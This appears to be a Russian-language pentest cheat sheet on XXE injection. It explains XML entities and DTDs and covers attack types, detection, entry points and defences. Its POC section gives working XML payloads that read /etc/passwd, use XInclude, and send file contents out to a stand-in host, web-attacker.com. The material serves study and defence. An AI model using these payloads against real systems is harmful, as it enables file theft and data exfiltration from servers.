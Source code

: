 ### **XXE(sever)**

* **Описание**
Что такое XML?

	Расширяемый язык разметки (Extensible Markup Language, XML) позволяет определять и хранить данные совместно используемым способом. XML поддерживает обмен информацией между компьютерными системами, такими, как веб-сайты, базы данных и сторонние приложения. Предопределенные правила упрощают передачу данных в виде XML-файлов по любой сети, поскольку получатель может использовать эти правила для точного и эффективного чтения данных.

Что это такое XXE инъекция?

	Инъекция внешних сущностей XML (также известная как XML External Entity, XXE) – это уязвимость веб-безопасности, позволяющая злоумышленнику вмешиваться в обработку XML-данных приложения. Часто она позволяет злоумышленнику просматривать файлы на файловой системе сервера приложений, а также взаимодействовать с любыми внутренними или внешними системами, к которым имеет доступ само приложение.

* **Важные термины**
	Сущность - обозначает элемент данных и сокращает количество его повторения в документе. Сущность вводится с помощью ключевого слова ENTITY, за которым следует имя сущности и её значение: <!ENTITY person "Василий">.
	
	DTD , или Document Type Definition - Он определяет тип XML-документа. С помощью него парсер проверяет документ на соответствие заранее заданной структуре.
	 <!DOCTYPE email [
  <!ELEMENT email (date, time, sender, recipients, body)>
  <!ELEMENT recipients (to, cc?)> ]>В этом DTD корневой элемент email объявляется с помощью объявления типа ELEMENT. Затем обозначаются его дочерние элементы. 
  
* **Виды**
    Для чтения файлов. Злоумышленник определяет внешнюю сущность, в которой содержится содержимое файла на сервере. Результат возвращается в ответе приложения.
    Представь, что тот самый хитрый гость из отеля хочет получить доступ к секретным документам. Он пишет записку от твоего имени, в которой просит сделать копии документов и доставить ему в номер.
    
    Для проведения SSRF-атак. Внешние сущности применяются для определения наличия и открытых портов внутренних сетевых ресурсов.
    Хитрый гость хочет узнать, какие номера в отеле открыты. Он пишет записку с запросом на проверку — сотрудник обходит все номера и сообщает результаты.
    
    Для отказа в обслуживании (DoS). Вредоносные сущности могут вызвать перегрузку сервера, например, создавая рекурсивные ссылки, которые потребляют все ресурсы.
    Хитрый гость хочет нарушить работу отеля. Он пишет много записок со странными и запутанными запросами. Сотрудники пытаются выполнить их, и это приводит к сбою в работе отеля.
    
    Blind XXE — слепые XXE. Даже если данные не возвращаются злоумышленнику напрямую, он может использовать внешние сущности для выполнения действий на сервере, отслеживая побочные эффекты или используя сторонние серверы для получения данных.
    Хитрый гость хочет получить информацию, не привлекая внешнего внимания. Он пишет записку с просьбой выполнить неочевидные действия. Например, просит сотрудника включить или выключить свет в определённом номере в зависимости от того, есть ли в сейфе деньги. Затем он наблюдает за внешними признаками — смотрит, в окнах каких номеров горит свет.

О последней — подробнее. Если приложение уязвимо к XXE и не возвращает в своих ответах значения определённых внешних сущностей — это слепая XXE. Для её обнаружения и эксплуатации приходится прибегать к более сложным методам:

    Инициировать внеполосное сетевое взаимодействие, то есть отправлять результат XXE атаки на сервер злоумышленника.
    Вызвать ошибки парсинга XML таким образом, что сообщения об ошибках будут содержать конфиденциальные данные.
    
* **Как обнаружить**
	Приложение использует формат XML для передачи данных между браузером и сервером. Есть XML — есть риск XXE-атаки.
    	Приложение использует XML-парсеры, которые разрешают обработку внешних сущностей по умолчанию. Они могут быть уязвимы.
    	Приложение использует устаревшие версии XML-парсеров с известными уязвимостями. Это ещё больше увеличивает риск.
    	Входные данные проверяются недостаточно. Это позволяет злоумышленнику внедрять вредоносные внешние сущности.
    	Приложение использует внутренний SOAP запрос, в который попадают отправленные клиентом данные. В таком случае мы можем использовать конструкцию XInclude — это как пазл для XML-документов, позволяющий включать части одного документа в другой.
	Приложение позволяет загружать XML-подобные типы файлов, например .svg или .docx. Мы можем реализовать XXE, например, внутрь svg-иконки или docx-документа. Для встраивания XXE в .docx есть утилита — docem.
	Приложение использует один тип контента по умолчанию, но допускает и другие типы, включая XML. Мы можем изменить Content-Type тела запроса и отправить XML. В Burp Suite для этого есть удобное расширение — Content Type 																	Converter.
	
* **Точки входа**
* Найти запрос, содержащий XML. 
* Атаки XInclude
* Атаки XXE через загрузку файлов
* Атаки XXE через измененный тип контента (productId=1 = <productId>1</productId>)
	

* **POC**
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>   

<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>

<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;

<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;

<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>

<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>

* **Защита**
1. Большинство XXE-уязвимостей возникает из\-за того, что библиотека разбора XML-приложения поддерживает потенциально опасные XML-функции. В них приложение не нуждается, поэтому проще всего отключить эти функции:  
2. ссылки на внешние XML-сущности,  
3. поддержку XInclude,  
4. ссылки на пользовательские определения типов документов — DTD,  
5. обработку сущностей параметров.  
6. Это можно сделать с помощью конфигурационных опций или переопределив поведение по умолчанию.  
7. Обнови все компоненты, которые анализируют XML-вход. Это, например, SOAP — протокол обмена структурированными сообщениями в распределённой вычислительной среде, библиотека API.  
8. Обнови все процессоры документов или файлов, которые могут выполнять разбор XML. В том числе процессоры изображений и документов svg, docx или pdf.  
9. Используй новейшие библиотеки XML и компоненты веб\-разработки. Это снижает уровень веб\-уязвимости — XXE не исключение.  
10. В веб\-приложениях должна присутствовать корректная обработка исключений, а на веб\-серверах следует отключить отображение ошибок времени выполнения.  
11. Использовать и другие форматы — JSON или YAML. Откажись от стандартов API, основанных на XML, — например, SOAP. Используй вместо них API на основе JSON — например, REST. При этом не забывай о возможной подмене Content-Type со стороны клиента.  
12. Используй брандмауэры Web Application Firewalls — WAF. Полностью на них полагаться не стоит: это лишь часть защиты, а не её основа.

* **Обход защиты**
	В некоторых случаях - Обфускация данных.
	Параметрические сущности.
